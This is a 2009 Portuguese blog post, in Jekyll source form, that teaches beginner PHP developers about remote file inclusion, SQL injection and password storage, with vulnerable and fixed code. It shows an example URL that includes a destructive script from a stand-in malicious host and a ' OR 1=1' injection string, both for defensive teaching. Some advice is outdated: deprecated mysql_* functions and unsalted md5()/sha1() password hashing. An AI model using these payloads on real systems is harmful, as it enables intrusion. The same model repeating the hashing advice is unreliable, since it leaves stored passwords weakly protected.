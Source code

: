 ```yaml
---
layout: post
title: Principais falhas de segurança no PHP
excerpt: Veja um pouco sobre cada uma das principais falhas de segurança criadas pelos
  iniciantes em PHP e que podem deixar um site de portas abertas para o mundo...

date: '2009-03-24 20:08:33 -0300'
categories:
- PHP
- Artigos
- Segurança
tags: []
---
```

<p>Hoje vou falar sobre alguns erros comuns que são cometidos por programadores que estão começando agora. Resolvi fazer esse post pois vejo diariamente em fóruns de PHP pessoas com erros em scripts que possuem rombos enormes de segurança...</p>
<p>Não prometo deixar o seu sistema tão protegido quanto o <a title="Cadillac One" href="http://blog.thiagobelem.net/arquivos/2009/03/cadillac-one.jpg" target="_blank"><em>carro do Obama</em></a> mas, sem dúvida, você vai evitar que muita gente faça um estrago considerável no seu site.</p>
<p>Se você se identificar com algumas dessas medidas não saia correndo e se jogue da ponte... Faça os devidos ajustes e tudo ficará bem.</p>
<h4>Cuidados com a URL - Parte I</h4>
<p>Uma falha muito comum são aqueles sites que, tentando usar um sistema "legal", acabam abusando da sorte... São sites que incluem o conteúdo <span style="color: #999999;">(via <strong>include()</strong>)</span> baseado em uma variável do método $_GET. Exemplo:</p>
<p>[code language="php"]<br />
<?php<br />
	// Verifica se a variável $_GET['pagina'] existe<br />
	if (isset($_GET['pagina'])) {<br />
		// Pega o valor da variável $_GET['pagina']<br />
		$arquivo = $_GET['pagina'];<br />
	} else {<br />
		// Se não existir variável, define um valor padrão<br />
		$arquivo = 'home.php';<br />
	}<br />
	include ($arquivo); // Inclui o arquivo<br />
?><br />
[/code]</p>
<p>E na URL do site ficaria:<br />
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=contato.php</span></span></p>
<p>Com isso o "invasor" pode, por exemplo, colocar um caminho de um script externo no lugar da variável:<br />
<span style="color: #008080;">http://www.meusite.com.br/?<span style="color: #0000ff;">pagina=<span style="color: #ff0000;">http://sitedumal.net/deleta-banco.php</span></span></span></p>
<p>O seu site incluiria o arquivo normalmente e executaria tudo que existe dentro dele... O resto você já pode imaginar.</p>
<p>Evitar que isso aconteça é extremamente simples: é só criar um <em>array </em>contendo os nomes dos arquivos que poderão ser incluídos, dessa forma:</p>
<p>[code language="php" wrap="false"]<br />
<?php<br />
	// Define uma lista com os arquivos que poderão ser chamados na URL<br />
	$permitidos = array('home.php', 'produtos.php', 'contato.php', 'empresa.php');</p>
<p>	// Verifica se a variável $_GET['pagina'] existe E se ela faz parte da lista de arquivos permitidos<br />
	if (isset($_GET['pagina']) AND (array_search($_GET['pagina'], $permitidos) !== false)) {<br />
		// Pega o valor da variável $_GET['pagina']<br />
		$arquivo = $_GET['pagina'];<br />
	} else {<br />
		// Se não existir variável $_GET ou ela não estiver na lista de permissões, define um valor padrão<br />
		$arquivo = 'home.php';<br />
	}<br />
	include ($arquivo); // Inclui o arquivo<br />
?><br />
[/code]</p>
<p>Viu? Adicionamos uma única linha e mais uma condição e está tudo resolvido. Com isso, se o atacante colocar lá o site dele na URL do seu site o PHP vai identificar que a variável <strong>$_GET['pagina']</strong> existe mas não está no <em>array </em><strong>$permitidos</strong>, então ele vai incluir o arquivo <strong>home.php</strong>.</p>
<h4>Cuidados com a URL - Parte II</h4>
<p>Outro erro comum é quando passamos parâmetros pela URL, por exemplo: o ID de uma categoria ou de um produto que, mais tarde, será buscado direto no banco para recolher algumas informações.</p>
<p>Geralmente o formato é o seguinte:<br />
<span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=12</span></span><br />
ou<br />
<span style="color: #008080;">http://www.meusite.com.br/?pagina=produtos.php&<span style="color: #0000ff;">id=12</span></span></p>
<p>Com isso <span style="color: #999999;">(se você não se preparar) </span>você deixa uma porta aberta para um ataque famoso chamado <strong>SQL-Injection</strong> que nada mais é do que a inserção de um código SQL em um campo de texto ou parâmetro da URL que será enviado diretamente para o banco. Vamos a um exemplo:</p>
<p>[code language="php" highlight="9"]<br />
<?php<br />
// Formato da URL:<br />
//  http://www.meusite.com.br/produtos.php?id=12</p>
<p>// Salva o parâmetro da URL numa variável<br />
$produto = $_GET['id'];</p>
<p>// Monta a consulta MySQL<br />
$sql = "SELECT * FROM `produtos` WHERE `id` = '".$produto."' LIMIT 1";</p>
<p>// Executa a query<br />
$query = mysql_query($sql);</p>
<p>// Salva o resultado (em formato de array) em uma variável<br />
$resultado = mysql_fetch_assoc($query);</p>
<p>?><br />
[/code]</p>
<p>A sua consulta ao MySQL ficaria da seguinte forma:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '12' LIMIT 1[/code]</p>
<p>Até aqui tudo bem.. Seu script funciona, você tem o que precisa e tá tudo na mais perfeita harmonia... Mas chega um <span style="text-decoration: line-through;">desocupado</span> invasor e modifica a sua URL deixando da seguinte forma:</p>
<p><span style="color: #008080;">http://www.meusite.com.br/produtos.php?<span style="color: #0000ff;">id=<span style="color: #ff0000;">' OR 1=1 OR ''='</span> </span></span></p>
<p>Agora a sua query MySQL fica assim:</p>
<p>[code language="sql" light="true"]SELECT * FROM `produtos` WHERE `id` = '' OR 1=1 OR '' = '' LIMIT 1[/code]</p>
<p>Viu o que aconteceu? As possíveis condições para a consulta ser verdadeira são: id igual a vazio, 1 igual a 1 e vazio igual a vazio... Essa consulta vai ser dada como verdadeira e todos os produtos serão retornados. Sim meu amigo, é o fim do mundo.</p>
<p>Mas, como eu disse, não estou aqui para te assustar e sim para mostrar como resolver o pepino... Vamos a uma atitude simples mas que te salvará do Apocalipse... É só mudar uma linha:</p>
<p>[code language="php"]<br />
// Salva o parâmetro da URL numa variável obrigando-o a ser um valor inteiro<br />
$produto = (int)$_GET['id'];<br />
[/code]</p>
<p>Com isso eu digo que valor da variável <strong>$produto</strong> será igual ao <strong>valor inteiro</strong> <span style="color: #999999;">(<em>int </em>de integer)</span> da variável <strong>$_GET['id']</strong>. Problema resolvido meus caros!</p>
<p>Se o atacante colocar uma string como parâmetro <span style="color: #999999;">(todo SQL-Injection é uma string)</span> ela será convertida para inteiro... E o valor inteiro de uma string é igual a zero.  8-)</p>
<p>Peço <span style="color: #ff0000;"><strong>atenção dobrada</strong></span> para o entendimento desse último exemplo pois o <strong>SQL-Injection</strong> é o ataque mais comum dos últimos tempos.</p>
<p>Caso você passe parâmetros via URL que são strings e não números inteiros, você pode usar a função <strong>mysql_real_escape_string()</strong> da seguinte forma:</p>
<p>[code language="php"]<br />
$parametro = mysql_real_escape_string($_GET['nome']);<br />
[/code]</p>
<p>Com isso você evita o uso de aspas e caracteres protegidos do MySQL mantendo a sua <em>query </em>segura. Esse caso também vale para formulários dos quais os dados vão direto para consultas MySQL <span style="color: #999999;">(formulários de login, cadastro e comentários, por exemplo)</span>.</p>
<h4>Sobre Usuários e Senhas</h4>
<p>Outro ponto muito importante é não exibir, em momento algum, o nome de login <span style="color: #999999;">(usuário)</span> de algum usuário cadastrado no sistema. Lembre-se que para um usuário conseguir invadir a conta do outro ele precisa de duas coisas: usuário <span style="color: #999999;">(ou e-mail)</span> e a senha.. Se ele souber o usuário já tem 50% de sucesso.</p>
<p>Vale lembrar também que você <strong>não precisa</strong> deixar a senha do usuário na forma real quando salva-la no banco. É muito mais seguro salvar um <strong>md5() </strong>ou <strong>sha1()</strong> da senha no banco e quando for necessário fazer a validação do usuário você também gera o <strong>md5()</strong> ou <strong>sha1()</strong> da senha que ele digitou e compara com o que há no banco. Assim, se por ventura alguém conseguir invadir e pegar todos os registros do banco de usuários, o máximo que ele irá conseguir são o usuário/e-mail e uma senha criptografada.</p>
<p>Se quiser saber como funciona criptografica no PHP é só ver esse post:<br />» <a href="http://blog.thiagobelem.net/php/criptografia-no-php-usando-md5-sha1-e-base64/">Criptografia no PHP usando md5, sha1 e base64</a></p>
<p>Espero que tenham gostado. :)</p>
